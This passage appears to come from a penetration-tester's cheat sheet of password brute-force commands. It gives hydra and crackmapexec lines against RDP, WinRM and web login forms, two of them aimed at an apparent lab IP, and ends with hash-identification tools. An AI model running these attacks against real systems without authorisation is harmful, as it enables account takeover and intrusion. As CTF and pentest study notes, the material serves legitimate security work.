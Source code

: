 ```bash
hydra -L users.txt -p "password" rdp://$IP
hydra -L "users" -p password.txt rdp://$IP
hydra -L users.txt -p password.txt rdp://$IP
```

### crackmapexec

```bash
crackmapexec rdp $IP -u users.txt -p "password"
crackmapexec rdp $IP -u users.txt -p "password" --local-auth
```

## WinRM

### crackmapexec

```bash
crackmapexec winrm $IP -u users.txt -p "password"
crackmapexec winrm $IP -u users.txt -p "password" --local-auth
```

# HTTP POST Login Form

## hydra

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

hydra -I -V -l admin -P /usr/share/wordlists/rockyou.txt -t 1 "http-get://$IP/:A=BASIC:F=401"

hydra -I -f -L usernames.txt -P passwords.txt 'http-post-form://$IP/PATH:username=^USER64^&password=^PASS64^:C=/:F=403'

# Example 1
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.64.117 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password\!"

# Example 2
hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt 10.129.64.117 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true&Login=Login:Incorrect password."
```

# Hash Identify

- https://hashes.com/en/tools/hash_identifier

```bash
hash-identifier
hashid hash
```
